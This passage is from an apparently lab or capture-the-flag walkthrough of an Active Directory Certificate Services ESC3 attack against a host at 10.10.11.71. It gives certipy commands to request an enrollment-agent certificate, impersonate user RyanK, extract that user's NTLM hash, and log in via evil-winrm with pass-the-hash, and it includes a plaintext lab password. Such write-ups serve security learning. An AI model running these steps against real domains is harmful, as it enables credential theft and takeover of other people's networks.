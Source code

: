 5.  **Request a "Request Agent" Certificate:**
    Obtain a certificate that grants the ability to request certificates on behalf of others.

    ```bash
    certipy req -u lion.sk -p '2WSXcde#' -ca 'certificate-DC1-CA' -template Delegated \
    -dc-ip 10.10.11.71 -output delegated.pfx
    ```

    This creates `delegated.pfx`.

6.  **Find a User with `mail` Attribute:**
    The ESC3 exploit often requires impersonating a user with an email address.

    ```powershell
    Get-ADUser -Filter * -Properties Name, SamAccountName, Mail | Select-Object Name, SamAccountName, Mail
    ```

    Look for a user with a `Mail` attribute. The video finds **`RyanK`** is a member of `Domain Storage Managers`.

7.  **Request Certificate On Behalf of `RyanK`:**
    Use the `delegated.pfx` to request a certificate for `RyanK`.

    ```bash
    certipy req -u lion.sk -p '2WSXcde#' -ca 'certificate-DC1-CA' -template SignedUser -on-behalf-of 'RyanK' \
    -pfx delegated.pfx -dc-ip 10.10.11.71 -output ryan_k.pfx
    ```

      * `-on-behalf-of 'RyanK'`: Specifies to request the certificate on behalf of `RyanK`.
      * `-template SignedUser`: A common template used for this attack.

8.  **Get `RyanK`'s NTLM Hash:**
    Use `RyanK`'s `ryan_k.pfx` certificate to get their NTLM hash.

    ```bash
    certipy auth -pfx ryan_k.pfx -dc-ip 10.10.11.71 -output-format ntlm
    ```

    This outputs `RyanK`'s NTLM hash.

### Leveraging `SeManageVolumePrivilege`

Authenticate as `RyanK` using their NTLM hash.

1.  **WinRM as `RyanK`:**

    ```bash
    evil-winrm -i 10.10.11.71 -u RyanK -H <RyanK_NTLM_hash>
    ```

2.  **Check Privileges:**

    ```powershell
    whoami /all
    ```

